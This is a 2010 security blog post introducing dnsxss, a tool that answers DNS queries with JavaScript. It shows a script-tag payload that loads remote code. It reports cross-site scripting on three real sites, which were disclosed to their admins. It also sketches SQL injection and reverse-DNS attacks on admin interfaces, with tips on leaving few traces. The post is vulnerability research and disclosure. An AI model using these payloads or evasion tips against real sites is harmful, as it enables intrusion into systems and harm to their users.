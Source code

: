 ```yaml
---
id: 433
title: 'Stuffing Javascript into DNS names'
date: '2010-04-20T10:36:54-05:00'
author: ron
layout: post
guid: 'http://www.skullsecurity.org/blog/?p=433'
permalink: /2010/stuffing-javascript-into-dns-names
categories:
    - DNS
    - Hacking
    - Tools
---
```


Greetings! 

Today seemed like a fun day to write about a really cool vector for cross-site scripting I found. In my testing, this attack is pretty specific and, in some ways, useless, but I strongly suspect that, with resources I don't have access to, this can trigger stored cross-site scripting in some pretty nasty places. But I'll get to that! 

Interestingly enough, between the time that I wrote this blog/tool and published it, nCircle researchers <a href='http://www.darkreading.com/vulnerability_management/security/app-security/showArticle.jhtml?articleID=224201569'>have said almost the same thing</a> (<a href='http://blog.ncircle.com/blogs/vert/miXSS%20Whitepaper.pdf'>paper</a> (pdf)). The major difference is, I released a tool to do it and demonstrate actual examples. 
<!--more-->
<h2>dnsxss</h2>
If you've installed <a href='/wiki/index.php/Nbtool'>nbtool</a>, you may have noticed that, among other programs it comes with, one of them is called <a href='/wiki/index.php/Dnsxss'>dnsxss</a>. Take a look at the wiki page for more information, but what it does is, essentially, respond to DNS requests for CNAME, MX, TXT, and NS records with Javascript code. Unless you want some specific code, all you have to do is run it:
<pre># dnsxss
Listening for requests on 0.0.0.0:53
Will response to queries with: 
&lt;script/src='http://www.skullsecurity.org/test-js.js'&gt;&lt;/script&gt;
</pre>

Pass -h or --help for a list of arguments. 

Now, an observant reader will realize that this isn't valid HTML. Unfortunately, as far as I can tell, there's no way to send a space through DNS, so you have to come up with some space-free code. The best I could find was replacing spaces with a '/', which will work on Firefox but not IE (I haven't tested anything else). If anybody can think of a better way to write HTML without spaces, let me know. The next best solution is using the TXT query, which DOES allow spaces. dnsxss will reply to TXT queries with well formed Javascript. 

For what it's worth, dnsxss will answer A or AAAA requests with localhost (127.0.0.1 or ::1) -- if somebody does a lookup, they'll get an odd answer that won't immediately lead back to you. 

<h2>Let's break stuff!</h2>
So, what can you do with this?

Well, fortunately (or unfortunately? depends who you are), most sites don't echo back DNS records. But, some do. I picked the first three sites from a Google query and tested them out. All three were vulnerable. And I very much doubt that any programmers even *consider* filtering DNS responses. I mean, who expects DNS responses to contain HTML? 

And, furthermore, if I can sneak HTML code into pretty much any site that looks up DNS names due to lack of filtering, how about SQL injection? If the response is inserted into the database without filtering for SQL characters, which I would bet they are on at least some sites, you now have an avenue for SQL injection! And, better yet, there's a decent chance that the requests won't be logged because a) it's coming through a backchannel so it's not going to be in their Web server logs, b) the statements containing SQL injection won't be inserted to your logging table (since they wouldn't be valid queries), and c) you can turn off the DNS server whenever you want, and no trace will be left that you were ever doing it (except short-lived caches). 

As I mentioned earlier, I took the first three sites from a google query I crafted, and all three were vulnerable. I emailed the administrators of all three sites, and two of them replied thanking me. Both told me that it was a really interesting vector, and that they would fix their sites as soon as possible. The third I haven't heard back from. But the point is, on three random sites, none had even considered implementing any defenses.

Let's take a look at the examples! But first, here are some notes on them:
<ul>
<li>The examples use skullseclabs.org, which is the domain I use for all my testing -- if you plan on testing these yourself, you'll have to register your own domain</li>
<li>The examples use "/* */" to conceal the space, but I realized later that a single "/" works just as well</li>
</ul>

So, without further ado, here are some screenshots of the sites. I anonymized them a little, though a clever attacker could likely Google hack them. 
<h3>Site 1</h3>
The form:
<img src='/blogdata/dnsxss-site1-1.png'>

The result:
<img src='/blogdata/dnsxss-site1-2.png'>

The source:
<img src='/blogdata/dnsxss-site1-3.png'>

<h3>Site 2</h3>
The form:
<img src='/blogdata/dnsxss-site2-1.png'>

The result:
<img src='/blogdata/dnsxss-site2-2.png'>

The source:
<img src='/blogdata/dnsxss-site2-3.png'>

<h3>Site 3</h3>
The form:
<img src='/blogdata/dnsxss-site3-1.png'>

The result:
<img src='/blogdata/dnsxss-site3-2.png'>

The source:
<img src='/blogdata/dnsxss-site3-3.png'>

<h3>So there we go...</h3>
Three sites, none of which filter out my cross-site scripting attempts. Fun!

<h2>Weaponization</h2>
The problem is, this only affects a small percentage of sites -- those that will look up domains and display them for you. How can this be used against more targets?

Well, I have two ideas:
<ol>
<li>As I mentioned earlier, I'd bet money that there are other forms of attacks through these avenues -- I'd be surprised if SQL injection didn't exist</li>
<li>Can you stuff javascript into <strong>reverse</strong> DNS entries?</li>
</ol>

The second point, I suspect, is where we're going to have fun. I can think of countless security devices, from firewalls to vulnerability management tools to proxy servers, with Web interfaces that display reverse DNS records. Not to mention tools where administrators are shown reverse lookups -- forums, for example. Another avenue is logfiles, which are normally visible to administrators. 

In all of these cases, if you can stuff Javascript into reverse DNS lookups, you will likely find some very interesting vulnerabilities. Plus, you can instantly see when somebody hits one, and, more often than not, you can clean up your tracks quite well. 

I don't have access to any domains where I control the reverse DNS records, but if anybody does I'd love to test this out! 
